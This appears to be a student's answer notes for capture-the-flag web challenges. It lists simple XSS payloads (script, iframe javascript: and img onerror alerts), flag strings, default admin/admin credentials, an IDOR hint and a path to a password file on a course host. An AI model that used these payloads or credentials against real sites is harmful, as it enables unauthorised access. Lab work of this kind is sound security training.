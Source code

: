 **Able to uploads malicious scripts in avatar.**

<br>

**Challenge 1:**

\<script>alert('1')\</script>

**Challenge 2:**

\<h1>\<IFRAME SRC="javascript:alert('XSS');">\</IFRAME>">123\<h1>

**Challenge 3:**

\<canvas> alert('1')</\</canvas>

**Challenge 4:**

Change link in anchor tag and put onlcick event on it.

**Challenge 5:**

Change alt title and src of image

<br>

**Group 4:**

**Challenge 1:**

breach{1\_am\_a\_t3a\_p0t}

look in the html.

**Challenge 3:**

Use burpsuite to automate the xss payloads from github.

**Challenge 5:**

Change the link in the form to solve. (IDOR)

<br>

**group 10:**

**Challenge 1:**

“Tzen ekik eh!”

found in html with inspect

**Challenge 2:**

\<img src=”#” onerror=alert(1)>

**Challenge 5:**

<https://group10web.hp.ti.howest.be/challenges/extrafiles/supersecretpassword.txt>

<br>

**group16**

**Challenge 2:**

admin, admin

**Challenge 3:**

change link, log in with admin 

